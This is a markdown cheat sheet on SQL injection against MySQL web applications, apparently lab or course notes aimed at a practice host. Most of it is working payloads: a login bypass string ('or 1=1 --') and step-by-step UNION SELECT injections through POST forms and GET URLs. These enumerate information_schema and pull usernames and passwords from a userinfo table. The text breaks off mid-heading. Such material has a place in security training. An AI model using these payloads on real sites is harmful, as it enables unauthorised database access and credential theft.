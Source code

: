 # Commands
We are only using the `select` and `union` methods and 'union select'


# Default Databases
```
information_schema
mysql
performance_schema
```
# Structure
```
Information Schema
--> Tables
  --> Columns
    --> TABLE_SCHEMA
      --> TABLE_NAME
      --> Column_NAME
```
# Enumerating
```
show tables ;
show columns from columns ;
```

```
select table_schema,table_name,column_name from information_schema.columns ;
```

```
select name,cost,color from session.car
```

```
@@VERSION
```
This will print the version number

# Bypass Login
```
' or 1=1 --
```
\+
```
SELECT * FROM users WHERE username = '' AND password = 'foo'
```
Changes to
```
SELECT * FROM users WHERE username = '' OR 1=1-- ' AND password = 'foo'
```

Querying all usernames and passwords
```
10.50.36.14/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
```
# Hijacking Search SQL (POST METHOD)

## 1. Identify vulnerable field

Test with:
```
Name' or 1='1
```

## 2. Attempt to view more
```
Audi ' UNION SELECT 1,2,3,4 #
```
If this doesn't work try adding more columns, I.E: `1,2,3,4,5 #` (IT MIGHT BE AS HIGH AS 15)

NOTE: this is the number of columns you must use for every query

## 3. Edit Golden Statement
Golden Statement:
```
UNION SELECT table_schema,table_name,column_name from information_schema.columns #
```
Lets say there are only 5 columns with column 2 unavailable available:

Put unavailable and known columns in the right place (put `2` in the second position and put `5` in the fifth position)
```
UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
```
Add to our previous UNION statement from step 2
```
Audi ' UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
```
## 4. Find Tables of Interest
For example
| Manufacturer | Cost | Color | Year
| - | - | - | - |
| --- | --- | --- | --- |
|session |userinfo 	 |studentID 	|5|
|session |	userinfo |	 username| 	  5|
|session 	|userinfo 	|  passwd 	|    5|
|session 	|userinfo 	|  jump 	  |    5|
|session 	|userinfo 	|  prid 	 |     5|

or

```
Database  Table      Columns
------------------------------
session
          userinfo
                     studentID
                     username
                     passwd
                     jump
                     prid
```

Shows a database `session` with a table `userinfo` and columns with `studentID`, `username`, `passwd`, `jump`, `prid`

## 5. Create New Queries
Requirements:
- Must match the number of columns of the golden rule (in our example 5 columns)
- Any unavailable columns must be used (in our example column 2)

```
UNION SELECT type,2,cost,color,year from session.car #
```

```
UNION SELECT studentID,2,username,passwd,jump from session.userinfo #
```
# Hijacking Search SQL (GET METHOD)
## 1. Identify Vulnerable Field
When using the sql get method, you may notice the sql query in the url:
```
http://10.50.36.14/uniondemo.php?Selection=4&Submit=Submit
```
The `?Selection=4` is the query

Test this by replacing the standard query with

```
Selection=4 or 1=1
```
This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=4 or 1=1&Submit=Submit
```
## 2. Attempt to view more
Get the column count with:
```
Selection=2 UNION SELECT 1,2,3
```
This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT 1,2,3&Submit=Submit
```

If more columns are needed (it errors out) add them as so: `1,2,3,4,5`
## 3. Edit Golden Statement
Golden Statement:
```
UNION SELECT table_schema,table_name,column_name from information_schema.columns
```
For our example we have only 3 columns available, because of this no modifications are neccessary

Add to our previous UNION statement from step 2
```
Selection=2 UNION SELECT table_schema,table_name,column_name from information_schema.columns
```

This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name from information_schema.columns&Submit=Submit
```
## 4. Find Tables of Interest
From our example:
| Manufacturer | Cost | Tire Size |
| - | - | - |
| --- | --- | --- |
|session 	|studentID 	|userinfo|
|session 	|username |	userinfo|
|session 	|passwd |	userinfo|
|session 	|jump |	userinfo|
|session 	|prid 	|userinfo|

or

```
Database   Table      Column
--------------------------------
session
           userinfo   
                      studentID
                      username
                      passwd
                      jump
                      prid
```

Shows a database `session` with a table `userinfo` and columns with `studentID`, `username`, `passwd`, `jump`, `prid`

## 5
